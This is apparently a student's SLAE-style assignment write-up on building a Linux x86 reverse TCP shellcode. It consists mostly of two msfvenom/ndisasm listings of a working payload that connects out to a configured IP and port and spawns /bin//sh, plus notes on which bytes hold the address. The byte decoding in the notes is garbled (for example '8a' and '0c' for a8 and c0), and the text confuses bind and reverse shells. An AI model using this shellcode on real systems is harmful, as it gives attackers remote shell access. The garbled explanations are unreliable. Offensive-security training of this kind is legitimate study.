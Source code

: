 # Assignment 2

## What to do 

• Create a Shell_Reverse_TCP shellcode 
   
    – Reverse connects to configured IP and Port 
   
    – Execs shell on successful connection 

• IP and Port number should be easily configurable

## Solution

The easiest solution is to obtain the disassembled code from the bind_reverse_shell from Metasploit.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.1 LPORT=8888 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A80101        push dword 0x101a8c0
      0000001D  68020022B8        push dword 0xb8220002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

Once we have it, we need to find the place where the IP and the PORT are injected. We locate it by changing the LHOST and LPORT variables when running metasploit and comparing both outputs.

      msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.123 LPORT=8999 EXITFUNC=THREAD -f raw | ndisasm -u -

      00000000  31DB              xor ebx,ebx
      00000002  F7E3              mul ebx
      00000004  53                push ebx
      00000005  43                inc ebx
      00000006  53                push ebx
      00000007  6A02              push byte +0x2
      00000009  89E1              mov ecx,esp
      0000000B  B066              mov al,0x66
      0000000D  CD80              int 0x80
      0000000F  93                xchg eax,ebx
      00000010  59                pop ecx
      00000011  B03F              mov al,0x3f
      00000013  CD80              int 0x80
      00000015  49                dec ecx
      00000016  79F9              jns 0x11
      00000018  68C0A8017B        push dword 0x7b01a8c0
      0000001D  6802002327        push dword 0x27230002
      00000022  89E1              mov ecx,esp
      00000024  B066              mov al,0x66
      00000026  50                push eax
      00000027  51                push ecx
      00000028  53                push ebx
      00000029  B303              mov bl,0x3
      0000002B  89E1              mov ecx,esp
      0000002D  CD80              int 0x80
      0000002F  52                push edx
      00000030  686E2F7368        push dword 0x68732f6e
      00000035  682F2F6269        push dword 0x69622f2f
      0000003A  89E3              mov ebx,esp
      0000003C  52                push edx
      0000003D  53                push ebx
      0000003E  89E1              mov ecx,esp
      00000040  B00B              mov al,0xb
      00000042  CD80              int 0x80

We can see that the position where the code is different is 

      00000018  68C0A80101        push dword 0x101a8c0 (101a8c0 in litte endian is 192.168.1.1 where 01 is 1, 01 is 1, 8a is 168 and 0c is 192 in decimal)
      0000001D  68020022B8        push dword 0xb8220002 (b822 in litte endian is 22b8 which is 8888 in decimal)

      00000018  68C0A8017B        push dword 0x7b01a8c0 (7b01a8c0 in litte endian is 192.168.1.123 where b7 is 123, 01 is 1, 8a is 168 and 0c is 192 in decimal)
      0000001D  6802002327        push dword 0x27230002 (2723 in litte endian is 2327 which is 8999 in decimal)

So, we only need to modify these twolines  every time we want to change the listening port. 

To do that easily, you can use compile_reverse_shell.sh. It asks to the user the filename and the port that will be set to the final binary.

The steps that follows the shell before it starts to listen are showed here:

![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%202/reverse.png)

